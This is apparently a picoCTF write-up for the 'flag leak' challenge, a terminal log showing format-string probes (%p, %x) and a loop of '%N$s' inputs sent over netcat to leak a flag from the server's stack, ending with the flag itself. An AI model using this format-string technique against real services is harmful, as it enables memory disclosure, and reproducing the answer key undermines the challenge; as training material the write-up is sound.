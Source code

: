 # flag leak

## Objetivo

Story telling class 1/2

Additional details will be available after launching your challenge instance.

## Hints

## Solución

```     
┌──(kali㉿kali)-[~/Documents/PicoCTF]
└─$ nc saturn.picoctf.net 62376
Tell me a story and then I'll tell you one >> %p %p %p %p
Here's a story - 
0xffca5a00
                                                                           
┌──(kali㉿kali)-[~/Documents/PicoCTF]
└─$ nc saturn.picoctf.net 62376
Tell me a story and then I'll tell you one >> %x%x%x%x
Here's a story - 
ffc1fe10ffc1fe30804934678257825
                                                                           
┌──(kali㉿kali)-[~/Documents/PicoCTF]
└─$ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 62376 ; done
Tell me a story and then I'll tell you one >> Here's a story - 
%0$s
Tell me a story and then I'll tell you one >> Here's a story - 
%1$s
Tell me a story and then I'll tell you one >> Here's a story - 
��
Tell me a story and then I'll tell you one >> Here's a story - 
�ú,
┌──(kali㉿kali)-[~/Documents/PicoCTF]
└─$ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 62376 | grep -Ei pico ; done 
FLAG=picoCTF{L34k1ng_Fl4g_0ff_St4ck_
^C
                                                                           
┌──(kali㉿kali)-[~/Documents/PicoCTF]
└─$ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 62376 | grep -Ei (pico|ctf) ; done
CTF{L34k1ng_Fl4g_0ff_St4ck_64bf08ef}

```

## Flag

picoCTF{L34k1ng_Fl4g_0ff_St4ck_64bf08ef}

## Notas adicionales

## Referencias

[man](https://man7.org/linux/man-pages/man3/printf.3.html)